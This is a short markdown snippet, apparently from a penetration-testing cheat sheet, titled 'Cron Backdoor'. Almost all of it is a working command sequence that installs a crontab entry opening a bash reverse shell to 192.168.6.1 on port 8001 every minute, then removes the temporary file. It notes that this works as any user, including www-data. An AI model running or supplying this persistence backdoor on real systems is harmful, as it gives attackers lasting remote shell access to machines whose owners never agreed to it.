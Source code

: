 # Backdoors

### Cron Backdoor

Works as any user, even `www-data`.

```
cd /tmp
touch .tab 
crontab -l > .tab
echo "* * * * * /bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.6.1/8001 0>&1'" >> .tab
crontab .tab
rm .tab
```
